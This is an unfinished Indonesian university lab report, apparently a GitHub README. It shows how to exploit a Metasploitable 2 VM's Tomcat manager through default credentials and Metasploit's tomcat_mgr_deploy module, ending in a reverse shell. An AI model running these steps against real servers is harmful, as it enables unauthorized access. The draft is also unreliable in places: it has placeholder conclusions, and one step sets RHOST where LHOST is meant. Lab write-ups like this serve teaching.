









# **Tugas 5 PKSJ - Analisa Exploit dengan Metasploitable, Metasploit dan Nmap**


## Pendahuluan

Tugas ini dibuat untuk menyelesaikan Tugas 5 yaitu "Analisa Exploit dengan Metasploitable, Metasploit Nmap" pada matakuliah Perancangan Keamanan & Sistem Jaringan (PKSJ) Semester Ganjil 2016/2017, Teknik Informatika ITS, Surabaya
 
| NRP         | Nama                     |
|-------------|--------------------------|
| 5113100050  | Freddy Hermawan Y        |
| 5113100109  | Daniel Fablius           |
| 5113100113  | Muhamad Luthfie La Roeha |

## Dasar Teori

**1. Metasploit**

**Metasploit**  merupakan suatu tools yang digunakan untuk uji penetrasi. (https://www.rapid7.com/products/metasploit/)  

 **2. Metasploitable**

**Metasploitable**  adalah 

##Penggunaan Metasploit

Untuk penggunaan metasploit, pada Kali Linux sudah terinstall secara bawaan, dan untuk mengaksesnya dapat menggunakan perintah `msfconsole`  


## Intelligence Gathering 

1. Untuk melihat vulnerable pada Metasploitable yang telah diinstal, kita dapat melihatnya dengan cara menampilkan port mana saja yang terbuka di Metasploitable. Ketikkan command berikut `nmap -O <IP Metasploitable>`  
FREDDY Screenshot


2. Berdasarkan informasi yang didapat ([disini](http://colesec.inventedtheinternet.com/hacking-apache-tomcat/)), Metasploitable 2 telah terinstall Apache Tomcat yang berjalan pada port **8180**.

3. Untuk mengecek salah satu vulnerability tomcat, coba akses <IP Metasploitable>:8180/manager/html. Lalu masuk dengan credential :
```
username : tomcat
password : tomcat
```

4. Jika berhasil, akan masuk ke halaman Application Deployer. Pada halaman ini, kita dapat membuat rute baru dengan mengupload file WAR (Web ARchive). 

5. Pada titik ini, kita dapat membuat backdoor/payload yang dapat diupload dengan jenis .WAR. Sehingga kita dapat masuk ke shell Komputer target. 

## Exploit Apache Tomcat Manager - Application Deployer

Metasploit dapat membuat Payload dan membuka akses ke komputer yang terexploit secara otomatis. Caranya :

1. Buka console Metasploit pada komputer Attacker, dengan cara mengetik `msfconsole`

2. Untuk menyerang sistem menggunakan vulnerability **Tomcat Manager - Application Deployer**, gunakan exploit berikut :
```
msf> use exploit/multi/http/tomcat_mgr_deploy
```


3. Set `RHOST` dengan IP yang akan diexploit, dalam kasus ini, IP adalah IP milik Metasploitable. sebagai contoh 192.168.100.20. Set RHOST dengan cara :
```
msf exploit(tomcat_mgr_deploy) > set RHOST 192.168.100.20
```


4. Set `RPORT` dengan port yang vulnerable untuk diserang, dalam kasus ini port yang dipakai adalah port **8180**. Set RPORT dengan cara :
```
msf exploit(tomcat_mgr_deploy) > set RPORT 8180
```


5. Set `HttpUsername` dan `HttpPassword` agar Metasploit dapat masuk ke website tomcat. Set dengan cara :
```
msf exploit(tomcat_mgr_deploy) > set HttpUsername tomcat
msf exploit(tomcat_mgr_deploy) > set HttpPassword tomcat
```


6. Set `PATH` yang vulnerable untuk diserang, yaitu /manager/html. Set dengan cara :
```
msf exploit(tomcat_mgr_deploy) > set PATH /manager/html
```


7. Menggunakan target java universal untuk membuka tomcatnya, java universal ini karena base dari tomcat sendiri adalah java
```
msf exploit(tomcat_mgr_deploy) > show targets
msf exploit(tomcat_mgr_deploy) > set TARGET 1
```


8. Mengeset ip dari host program Metasploit yang kita punya dan portnya yaitu 4444. ipnya nantinya akan diset sesuai dengan ip komputer yang digunakan untuk menyerang. sebagai contoh dalam kasus ini adalah 192.168.100.21
```
msf exploit(tomcat_mgr_deploy) > set RHOST 192.168.100.21
msf exploit(tomcat_mgr_deploy) > set LPORT 4444
```


7. Ketik command `exploit` untuk menjalankan exploit menggunakan setting yang telah dilakukan sebelumnya.
```
msf exploit(tomcat_mgr_deploy) > exploit
```


8. Jika berhasil, akan tampil hal berikut :


9. Untuk memastikan bahwa kita berhasil masuk ke dalam Komputer target, lakukan command berikut :


## Kesimpulan dan Saran

### Kesimpulan
1. Lorem Ipsum
2. Lorem Ipsum

### Saran
**Jangan menggunakan settingan user default Tomcat pada sistem yang dapat melakukan upload file** 

